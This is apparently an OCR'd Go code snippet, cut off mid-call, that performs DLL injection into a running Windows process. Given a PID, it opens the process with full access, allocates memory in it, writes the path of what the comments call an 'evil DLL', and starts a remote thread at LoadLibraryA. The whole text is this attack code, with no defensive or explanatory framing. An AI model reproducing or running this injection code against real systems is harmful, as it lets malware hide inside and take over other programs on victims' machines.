 ```go  
	// parse process ID
	if len(os.Args) < 2 {
		fmt.Println("PID not found :( exiting...")
		return
	}
	pid, err := strconv.Atoi(os.Args[1])
	if err != nil {
		fmt.Println("Invalid PID:", os.Args[1])
		return
	}
	fmt.Printf("PID: %d\n", pid)

	// open process
	ph, op2, err := openProcess.Call(PROCESS_ALL_ACCESS, FALSE, uintptr(pid))
	if err != nil {
		fmt.Println("Results of openProcess:", err)
	}

	if ph == 0 {
		fmt.Println("Failed to open process")
		return
	}
	fmt.Println("Process handle:", ph)
	fmt.Println(op2)
	defer closeHandle.Call(ph)

	rb, va2, err := virtualAllocEx.Call(
		uintptr(ph),
		0,
		uintptr(uintptr(dllLength)),
		uintptr(MEM_RESERVE|MEM_COMMIT),
		uintptr(PAGE_READ_WRITE),
	)
	if err != nil {
		fmt.Println("Results of virtualAllocEx:", err)
	}

	if rb == 0 {
		fmt.Println("Failed to allocate memory")
		return
	}
	fmt.Println(rb)
	fmt.Println(va2)
	defer virtualFreeEx.Call(rb, 0, MEM_RELEASE)

	// copy evil DLL between processes
	dllPtr, err := syscall.BytePtrFromString(targetDll)
	wp1, wp2, err := writeProcessMemory.Call(ph, rb, uintptr(unsafe.Pointer(dllPtr)), uintptr(dllLength), 0)
	if err != nil {
		fmt.Println("Results of writeProcessMemory:", err)
	}
	fmt.Println(wp1)
	fmt.Println(wp2)

	// start new thread
	crt1, crt2, err := createRemoteThread.Call(
		ph,
		0,
		0,
		uintptr(loadLibraryA.Addr()),
		rb,
		0,
```